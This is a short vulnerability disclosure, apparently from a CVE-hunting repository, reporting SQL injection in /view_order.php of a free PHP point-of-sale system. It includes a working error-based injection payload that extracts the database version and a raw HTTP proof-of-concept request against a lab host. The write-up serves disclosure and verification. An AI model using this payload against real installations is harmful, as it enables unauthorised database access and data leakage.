 # SQLi-6 

# Vulnerability Description

The best-pos-management-system-php in PHP Free Source Code (It is an open source project from [www.sourcecodester.com](www.sourcecodester.com)) has SQL injection vulnerabilities, which can lead to database information leakage.

1. BUG_Author:
2. vendors: [https://www.sourcecodester.com/php/16127/best-pos-management-system-php.html](https://www.sourcecodester.com/php/16127/best-pos-management-system-php.html)
3. The program is built using the PHP 7.3.4nts version;
4. Vulnerability location: /view_order.php

[+] Payload:

```http
id=1%20OR%20(SELECT%204743%20FROM(SELECT%20COUNT(*),CONCAT('~',version(),'~',FLOOR(RAND(0)*2))x%20FROM%20INFORMATION_SCHEMA.PLUGINS%20GROUP%20BY%20x)a)
```

POC：

```http
GET http://10.0.10.39/kruxton/view_order.php?id=1 HTTP/1.1
Host: 10.0.10.39
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=6cco6p8q0cm6uim065rcoisf3v
Upgrade-Insecure-Requests: 1


```

## How to verify

Build the vulnerability environment according to the steps provided by the source code author and execute the poc provided above：
![image-20240313153721-dnpqayy](https://github.com/ycxdzj/CVE_Hunter/assets/159221768/7659c8b1-f8a8-4fcc-879f-269429faf657)

